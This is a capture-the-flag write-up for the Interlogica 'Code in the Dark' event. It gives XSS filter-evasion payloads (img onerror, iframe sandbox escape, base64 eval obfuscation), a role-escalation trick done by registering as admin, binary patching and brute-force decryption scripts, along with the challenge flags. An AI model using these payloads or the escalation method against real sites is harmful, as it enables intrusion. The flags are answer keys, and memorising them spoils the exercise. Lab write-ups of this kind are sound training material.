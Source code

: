 # CTF-CodeInTheDark
Interlogica CTF Code in the dark:
[https://ctf.codeinthedark.dev/challenges](https://ctf.codeinthedark.dev/challenges)

## 1 - eXSStravaganza-1

Trigger an alert(1) in the small browser by evading the sanitizer's countermeasures. NOTE: the alert must be triggerable offline and without any further actions by the user.
The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // warmup
    return input;
}
```

Hints:  
Browser says `An iframe which has both allow-scripts and allow-same-origin for its sandbox attribute can escape its sandboxing.`.


Solution:
```
<iframe src="http%3A//hithere" 
        scrolling="no" sandbox="allow-scripts allow-popups allow-modals allow-same-origin" 
        name="sandbox" style="width: 100%; height: 100%; border: 0px;"></iframe>
<script>
   alert(1);
</script>
```

## 2 - eXSStravaganza-2

The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // no scripts!
    if (input.toLowerCase().includes('script')) {
        return 'NO!';
    }
    return input;
}
```

Solution:
```
<img src="" onerror=alert(1)>
```

Thanks M9k!

## 3 - Unbreakable secret
Just call the function from console.

## 4 - The Bl0g
Register. Password of moderator is in the user profile image. Get sources as moderator. Sources show that registratin take role too. Register as admin. As admin go to admin page and see flag.


## 5 - eXSStravaganza-3

The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // no alert!
    if (input.toLowerCase().includes('alert')) {
        return 'NO!';
    }
    return input;
}
```

Solution:
```
<iframe src="" 
        scrolling="no" sandbox="allow-scripts allow-popups allow-modals allow-same-origin" 
        name="sandbox" style="width: 100%; height: 100%; border: 0px;"></iframe>

<script>
console.log("hi");
eval(atob('YWxlcnQoMSk7'));
</script>
```

Where `YWxlcnQoMSk7` is `alert(1);`.  
  
Or you can use `eval("al"+"ert(1)")`, thanks pal!
## Forensics - Bad request-1
Open with Wireshark, tools -> credentials, click on the packet, look inside the http and Wireshark automatically will convert the auth bearer to plaintext:
![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/11a6c6a6-f99e-419e-a0f9-75564f469f5c)

## Reversing - PWNVOYAGE-LEVEL0 (40 coins)
Bruteforce with some intuition. The code was "TOOYOUNGTODIEBRO". The code is PRLG{HURT_M3_PL3NTY}

## Reversing - PWNVOYAGE-LEVEL1 (90 coins)
Follow the instruction for the file, analyzing the assembly the password is U_R_MY_H3RO, The code is NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}.

![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/1120c293-8dda-445c-805f-7d55cbb07012)

## Reversing - PWNVOYAGE-LEVEL2 (110 coins)
Follow the instruction for the file, patched the assembly, address 00101764 changed from JZ to JNZ. The code is NTRLGC{H3LL0B1TCH3S!}.
![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/5a1df428-719c-4477-ae89-de6dd7e7ec89)

![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/ea3d815a-7a46-44ca-a1b3-1e427517a326)



## Crypto - Intercepted message (90 coins)
Resolver in Powershell, each character is shifted based on his position, with an overflow when needed. The code is NTRLGC{CaesarSaladsForEveryone}.
```
function Convert-String {
    param (
        [string]$inputString
    )
    
    $outputString = ""

    for ($i = 0; $i -lt $inputString.Length; $i++) {
        $char = $inputString[$i]
        $asciiValue = [int][char]$char
        $newAsciiValue = $asciiValue - $i
        if ($newAsciiValue -lt 33) {
            $newAsciiValue += 95;
        }
        $newChar = [char]$newAsciiValue
        $outputString += $newChar
        Write-Host "--------------"
        Write-Host $char
        Write-Host $asciiValue
        Write-Host $newAsciiValue
        Write-Host $newChar
    }
    return $outputString
}

# Input string
$inputString = 'NUTOKH"Jin}l~`o{qu&Y$([.},4++#<'

# Call the function and store the result
$result = Convert-String -inputString $inputString

# Output the result
Write-Host "Original string: $inputString"
Write-Host "Transformed string: $result"
```


## Crypto - Space (90 coins)
Bruteforced, it take less than a second on my PC. The code is NTRLGC{m4y-7h3-47h-b3-w17h-y0u!}.
```
#!/usr/bin/env python3
import hashlib
import argparse

ct = "w2a\x7fq'I\tUOLV\\UOQR\\L\x07R\x1c\x12\x07\x04X\x14HRD\x12H"

def md5(msg:str)->str:
    return hashlib.md5(msg.encode()).hexdigest()

def xor(data:str,key:str):    
    return ''.join(chr(ord(a) ^ ord(b)) for a,b in zip(data, key))

def main():
    year = 2023
    month = 1
    day = 1
    while (True):
        key = f"{year:04}-{month:02}-{day:02}"
        hkey = md5(key)
        result = xor(ct, hkey)
        if (result.startswith('NTRLGC')):
            print(result)
        day += 1
        if (day > 31):
            day = 1
            month +=1
            if(month > 12):
                month = 1
                year -= 1

if __name__ == "__main__":
    main()
```
## STEGO - GIFted
Divide the gif in frames and you can read the flag: `NTRLGC{THERARESTPEPEOFTHEMALL}`.

## STEGO - Unpleasant Challenge
The not colorblind-safe image contains the flag: `NTRLGC{1T5N0TFUNNY4T4LL}`.

